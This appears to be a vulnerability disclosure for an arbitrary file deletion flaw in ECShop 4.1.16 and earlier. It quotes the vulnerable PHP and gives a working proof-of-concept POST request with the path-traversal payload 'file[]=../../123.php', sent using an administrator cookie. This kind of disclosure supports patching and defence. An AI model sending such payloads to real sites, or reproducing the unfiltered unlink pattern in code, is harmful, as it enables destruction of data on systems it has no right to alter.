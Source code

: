 #ECShop_v4.1.16 Arbitrary File Deletion Vulnerability

#####1. Affected version

```
 ECShop <= 4.1.16
```

#####2. Firmware download address

[https://www.ecshop.com/download](https://www.ecshop.com/download)

or the source directory and readme directory of this repository are ECShop_ Source code for v4.1.16

#####3. Vulnerability details

 Starting from line 266 of the file  source  on "\source\ecshop\admin\database.php".

```php
if ($_REQUEST['act'] == 'remove') {
    /* 权限判断 */
    admin_priv('db_backup');

    if (isset($_POST['file'])) {
        $m_file = array(); //多卷文件
        $s_file = array(); //单卷文件
        
        $path = ROOT_PATH . DATA_DIR . '/sqldata/';
        
        foreach ($_POST['file'] as $file) {
            if (preg_match('/_[0-9]+\.sql$/', $file)) {
                $m_file[] = substr($file, 0, strrpos($file, '_'));
            } else {
                $s_file[] = $file;
            }
        }

        if ($m_file) {
            $m_file = array_unique($m_file);

            /* 获取文件列表 */
            $real_file = array();

            $folder = opendir($path);
            while ($file = readdir($folder)) {
                if (preg_match('/_[0-9]+\.sql$/', $file) && is_file($path . $file)) {
                    $real_file[] = $file;
                }
            }

            foreach ($real_file as $file) {
                $short_file = substr($file, 0, strrpos($file, '_'));
                if (in_array($short_file, $m_file)) {
                    @unlink($path . $file);
                }
            }
        }

        if ($s_file) {
            foreach ($s_file as $file) {
                @unlink($path . $file);
            }
        }
    }

    sys_msg($_LANG['remove_success'], 0, array(array('text' => $_LANG['restore'], 'href' => 'database.php?act=restore')));
}
```

![image-20230722001551622](assets/image-20230722001551622.png)

We can find that for the file parameter passed in by POST, the $s_file variable is not filtered, and any file can be deleted by using directory splicing.

#####4. Vulnerability verification

First, in the \source\ecshop directory, create a file named 123.php to verify the vulnerability.

![image-20230722002201315](assets/image-20230722002201315.png)

Then we use the burpsuite tool to capture the packet and log in to the administrator account to obtain the administrator's cookie.

```
/admin/privilege.php?act=login
```

![image-20230722002726749](assets/image-20230722002726749.png)

Login successful:

![image-20230722002808484](assets/image-20230722002808484.png)

Copy the administrator's  cookie. 

![image-20230722002921130](assets/image-20230722002921130.png)

Then construct the exploit, fill in the administrator's cookie and your host.

```
POST /admin/database.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.54
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: 
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 21 Jul 2023 13:53:04 GMT
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

act=remove&file[]=../../123.php
```

Finally, send the constructed request packet.

![image-20230722003608753](assets/image-20230722003608753.png)

We can find that the 123.php file has been deleted.

![image-20230722003553849](assets/image-20230722003553849.png)
